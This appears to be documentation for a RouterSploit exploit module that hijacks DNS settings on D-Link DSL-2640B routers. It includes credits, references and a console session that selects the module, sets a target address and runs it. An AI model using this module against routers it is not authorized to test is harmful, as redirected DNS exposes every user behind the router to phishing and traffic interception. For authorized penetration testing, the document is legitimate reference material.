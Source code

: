 # D-Link DSL-2640B DNS Change

## Description
Module exploits D-Link DSL-2640B dns change vulnerability.If the target is vulnerable it is possible to change dns settings.

## Authors
* Todor Donev <todor.doven[at]gmail.com> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/36105/](https://www.exploit-db.com/exploits/36105/)
* [https://github.com/jh00nbr/Routerhunter-2.0](https://github.com/jh00nbr/Routerhunter-2.0)

## Vulnerable devices
* D-Link DSL-2640B

## Usage
```
rsf > use exploits/dlink/dsl_2640b_dns_change
rsf (D-Link DSL-2640B DNS Change) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


Module options:

   Name     Current settings     Description
   ----     ----------------     -----------
   dns2     8.8.4.4              Seconary DNS Server
   dns1     8.8.8.8              Primary DNS Server


rsf (D-Link DSL-2640B DNS Change) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (D-Link DSL-2640B DNS Change) > run
[*] Running module...
```
